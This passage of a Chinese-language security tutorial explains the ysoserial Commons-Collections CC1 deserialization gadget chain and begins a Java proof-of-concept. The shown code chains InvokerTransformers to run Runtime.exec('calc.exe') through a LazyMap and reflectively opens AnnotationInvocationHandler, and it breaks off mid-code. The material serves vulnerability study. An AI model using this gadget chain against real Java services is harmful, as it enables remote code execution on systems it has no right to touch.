 ### 4.3 ysoserial 的 CC1 链的“巧妙之处”

1. ysoserial 的巧妙之处在于
    1. 其将 `LazyMap` 同时又作为了被代理的对象（此时 `LazyMap` 就是双重身份）。
    2. 同时，`AnnotationInvocationHandler.readObject()` 内部也调用了一个对象的无参方法，恰巧这个对象可以是代理对象，那么就可以触发 `invoke`。而这个对象是一个 `Map`，此时对应的方法就是 `entrySet()`。他恰好又和 `LazpMap` 继承 `Map`，这使得该 `Map` 可以代理 `LazyMap`（和第一点呼应）。
    3. 总的来说就是**用了两次/实例化两个** `AnnotationInvocationHandler`，一个用作 kick-off，还有一个当作动态代理中的 `InvocationHandler`。
2. 综上，ysoserial 的 CC1 链的逻辑如下：
    ![未命名绘图1](Serialization-Java/未命名绘图1.png)

### 4.4 PoC 构造与结果

1. 结合上述逻辑图，PoC 构造如下：

    ```java
    // 1. 构造链
    Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
    };
    Transformer transformedChain = new ChainedTransformer(transformers);
    
    // 2. 构造 LazyMap（同时也相当于创建被代理类）
    HashMap<Object, Object> map = new HashMap<>();
    LazyMap lazyMap = LazyMap.lazyMap(map, transformedChain);
    
    // 3. 把 AnnotationInvocationHandler 的构造函数搞出来
    // 通过反射，获取到 class 类对象
    Class<?> aIHClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    // 通过 class 类对象获取 class 类对象的构造函数
    Constructor<?> aIHClassDeclaredConstructor = aIHClass.getDeclaredConstructor(Class.class, Map.class);
    // 取消其访问检查（即绕过 protected 和 private 关键字修饰，直接对其变量赋值），
    aIHClassDeclaredConstructor.setAccessible(true);
    